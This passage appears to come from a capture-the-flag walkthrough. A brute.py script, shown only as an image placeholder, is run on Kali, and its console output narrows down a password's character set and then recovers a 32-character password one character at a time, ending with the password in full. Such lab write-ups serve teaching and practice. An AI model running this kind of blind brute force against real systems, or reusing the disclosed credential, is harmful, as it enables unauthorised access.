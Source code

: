 Once done, let's go ahead and run it!

```console
root@kali:~# chmod +x brute.py
root@kali:~# ./brute.py
Used chars: 0
Used chars: 03
Used chars: 035
Used chars: 0357
Used chars: 03578
Used chars: 035789
Used chars: 035789b
Used chars: 035789bc
Used chars: 035789bcd
Used chars: 035789bcdg
Used chars: 035789bcdgh
Used chars: 035789bcdghk
Used chars: 035789bcdghkm
Used chars: 035789bcdghkmn
Used chars: 035789bcdghkmnq
Used chars: 035789bcdghkmnqr
Used chars: 035789bcdghkmnqrs
Used chars: 035789bcdghkmnqrsw
Used chars: 035789bcdghkmnqrswA
Used chars: 035789bcdghkmnqrswAG
Used chars: 035789bcdghkmnqrswAGH
Used chars: 035789bcdghkmnqrswAGHN
Used chars: 035789bcdghkmnqrswAGHNP
Used chars: 035789bcdghkmnqrswAGHNPQ
Used chars: 035789bcdghkmnqrswAGHNPQS
Used chars: 035789bcdghkmnqrswAGHNPQSW
All characters used. Starting brute force... Grab a coffee, might take a while!
Password: 8*******************************
Password: 8P******************************
Password: 8Ps*****************************
Password: 8Ps3****************************
Password: 8Ps3H***************************
Password: 8Ps3H0**************************
Password: 8Ps3H0G*************************
Password: 8Ps3H0GW************************
Password: 8Ps3H0GWb***********************
Password: 8Ps3H0GWbn**********************
Password: 8Ps3H0GWbn5*********************
Password: 8Ps3H0GWbn5r********************
Password: 8Ps3H0GWbn5rd*******************
Password: 8Ps3H0GWbn5rd9******************
Password: 8Ps3H0GWbn5rd9S*****************
Password: 8Ps3H0GWbn5rd9S7****************
Password: 8Ps3H0GWbn5rd9S7G***************
Password: 8Ps3H0GWbn5rd9S7Gm**************
Password: 8Ps3H0GWbn5rd9S7GmA*************
Password: 8Ps3H0GWbn5rd9S7GmAd************
Password: 8Ps3H0GWbn5rd9S7GmAdg***********
Password: 8Ps3H0GWbn5rd9S7GmAdgQ**********
Password: 8Ps3H0GWbn5rd9S7GmAdgQN*********
Password: 8Ps3H0GWbn5rd9S7GmAdgQNd********
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdk*******
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkh******
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhP*****
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPk****
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq***
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9**
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c*
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```
